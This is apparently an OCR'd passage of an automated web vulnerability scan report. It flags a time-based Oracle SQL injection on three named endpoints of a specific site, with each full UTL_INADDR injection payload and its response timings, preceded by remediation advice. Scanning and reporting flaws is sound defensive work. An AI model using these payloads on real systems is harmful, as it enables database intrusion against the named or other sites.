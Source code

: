 Do not create dynamic SQL queries using simple string concatenation.

Escape all data received from the client.

Apply an 'allow list' of allowed characters, or a 'deny list' of disallowed characters in user input.

Apply the principle of least privilege by using the least privileged database user possible.

In particular, avoid using the 'sa' or 'db-owner' database users. This does not eliminate SQL injection, but minimizes its impact.

Grant the minimum database access that is necessary for the application.
Reference	https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html
CWE Id	89
WASC Id	19
Plugin Id	40027
High
SQL Injection - Oracle - Time Based
Description	
SQL injection may be possible.
URL	https://member.panama8888b.com/public/js/v2/app.js?v=25.1
Method	GET
Parameter	v
Attack	field: [v], value [25.1 / (SELECT UTL_INADDR.get_host_name('10.0.0.1') from dual union SELECT UTL_INADDR.get_host_name('10.0.0.2') from dual union SELECT UTL_INADDR.get_host_name('10.0.0.3') from dual union SELECT UTL_INADDR.get_host_name('10.0.0.4') from dual union SELECT UTL_INADDR.get_host_name('10.0.0.5') from dual) ]
Evidence	
Other Info	The query time is controllable using parameter value [25.1 / (SELECT UTL_INADDR.get_host_name('10.0.0.1') from dual union SELECT UTL_INADDR.get_host_name('10.0.0.2') from dual union SELECT UTL_INADDR.get_host_name('10.0.0.3') from dual union SELECT UTL_INADDR.get_host_name('10.0.0.4') from dual union SELECT UTL_INADDR.get_host_name('10.0.0.5') from dual) ], which caused the request to take [33,767] milliseconds, when the original unmodified query with value [25.1] took [4,003] milliseconds.
URL	https://member.panama8888b.com/user/dashboard?line_id=%40vippnm888&tg_id=panama888v
Method	GET
Parameter	line_id
Attack	field: [line_id], value [@vippnm888' / (SELECT UTL_INADDR.get_host_name('10.0.0.1') from dual union SELECT UTL_INADDR.get_host_name('10.0.0.2') from dual union SELECT UTL_INADDR.get_host_name('10.0.0.3') from dual union SELECT UTL_INADDR.get_host_name('10.0.0.4') from dual union SELECT UTL_INADDR.get_host_name('10.0.0.5') from dual) / ']
Evidence	
Other Info	The query time is controllable using parameter value [@vippnm888' / (SELECT UTL_INADDR.get_host_name('10.0.0.1') from dual union SELECT UTL_INADDR.get_host_name('10.0.0.2') from dual union SELECT UTL_INADDR.get_host_name('10.0.0.3') from dual union SELECT UTL_INADDR.get_host_name('10.0.0.4') from dual union SELECT UTL_INADDR.get_host_name('10.0.0.5') from dual) / '], which caused the request to take [6,111] milliseconds, when the original unmodified query with value [@vippnm888] took [1,037] milliseconds.
URL	https://member.panama8888b.com/api/announcement
Method	POST
Parameter	image
Attack	field: [image], value [announcement/3yHY2OAtmvTpuQQmBZ2UmkqjAZH8id1bcDKeo6Ab.png and exists (SELECT UTL_INADDR.get_host_name('10.0.0.1') from dual union SELECT UTL_INADDR.get_host_name('10.0.0.2') from dual union SELECT UTL_INADDR.get_host_name('10.0.0.3') from dual union SELECT UTL_INADDR.get_host_name('10.0.0.4') from dual union SELECT UTL_INADDR.get_host_name('10.0.0.5') from dual) -- ]
Evidence	
Other Info	The query time is controllable using parameter value [announcement/3yHY2OAtmvTpuQQmBZ2UmkqjAZH8id1bcDKeo6Ab.png and exists (SELECT UTL_INADDR.get_host_name('10.0.0.1') from dual union SELECT UTL_INADDR.get_host_name('10.0.0.2') from dual union SELECT UTL_INADDR.get_host_name('10.0.0.3') from dual union SELECT UTL_INADDR.get_host_name('10.0.0.4') from dual union SELECT UTL_INADDR.get_host_name('10.0.0.5') from dual) -- ], which caused the request to take [15,841] milliseconds, when the original unmodified query with value [announcement/3yHY2OAtmvTpuQQmBZ2UmkqjAZH8id1bcDKeo6Ab.png] took [358] milliseconds.
Instances	3
Solution	